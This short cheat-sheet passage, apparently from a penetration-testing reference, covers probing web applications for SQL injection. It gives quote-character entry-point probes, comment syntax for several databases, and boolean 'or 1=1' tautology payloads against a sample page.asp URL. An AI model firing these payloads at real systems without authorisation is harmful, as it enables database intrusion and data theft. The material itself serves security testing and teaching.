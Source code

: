 ### Test if an application is vulnerable to SQL injection
Possible injection examples to determine an entry point:
```
'
"
`
')
")
`)
'))
"))
`))
```
If you can cause an error by injecting any of the above (or more), then try and fix the error by putting comments in the injection:
```sql
MySQL
#comment
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```
Standard:
```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```
